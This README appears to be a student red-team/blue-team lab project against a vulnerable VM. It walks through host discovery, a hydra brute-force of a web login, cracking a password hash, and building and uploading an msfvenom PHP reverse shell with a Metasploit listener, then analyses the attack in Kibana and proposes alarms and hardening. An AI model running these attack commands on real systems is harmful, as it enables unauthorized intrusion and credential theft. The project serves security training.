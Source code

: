 # Red-Team-VS-Blue-Team-Project
Acted as a red team member to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team member to use Kibana to review logs taken during the attack implemented as the red team. Scenarios in which responsibilities of both a pentester and SOC analyst are used. 


 # Red Team
- `Ifconfig` to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- `Netdiscover -r 192.168.1.255/16` Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of `192.168.1.1 , 192.168.1.100 and 192.168.1.105.`
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that `192.168.1.105` ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.
 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
- And while exploring through the files we see an important directory being mentioned by the name of a `secret_folder`. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found `192.168.1.105/company_folders/secret_folder` it then shows a login prompt meant for “Ashton” only. 

   ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder` command. 

![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory `dav://192.168.1.105/webdav/` using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is `linux4u`
    ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being `msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php`

![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
 ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - `msfconsole -q`
   - `use exploit/multi/handler`
   - `Set payload php/meterpreter/reverse_tcp` 
      - (same payload script as the one we copied to the shared directory)
   - `Set LHOST 192.168.1.90`
      - Ip of machine we want to listen on 
   - `Set LPORT 4444`
      - Port we want to listen on
   - `Show options` 
      - To see if all the settings we had set are correct
   - `run`
      - To execute the listening process
 
 ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory `dav://192.168.1.105/webdav` which then after will then open up meterpreter on our host machine to show that we have now established connection 
![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like `getuid`. We can also open up a shell terminal if needed by using the command `shell`.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
`- Blocking the Port Scan`
  - Alarm
    - An alert to be sent to the team for a 1000+ port connections within a hour
  - System Hardening 
    - To run multiple port scans to see what ports are being opened and if any are being used maliciously
    - To make sure Firewall is up to date and to diminish any connections to the host

`- Finding the Request for the Hidden Directory`
  - Alarm
    - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
    - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
  - System Hardening
    - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
    - To make a whitelist to people who can and cant use these files and directories

`- Mitigation: Preventing Brute Force Attacks`
  - Alarm
    - I would implement a failed login alert to show a certain amount of times the login has failed 
    - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
    - If there is more than 5 failed login attempts the alarm would be triggered
  - System Hardening
    - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
    - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

`- Mitigation: Detecting the WebDav Connection`
  - Alarm
    - An alert would be made to send the IP addresses trying to get access to webdav  
  - System Hardening
    - To whitelist certain IP addresses so only certain machines can access WebDav

`- Mitigation: Identifying Reverse shell Uploads`
  - Alarm
    - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
  - System Hardening
    - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
    - To whitelist IP addresses that can access the webdav folder 


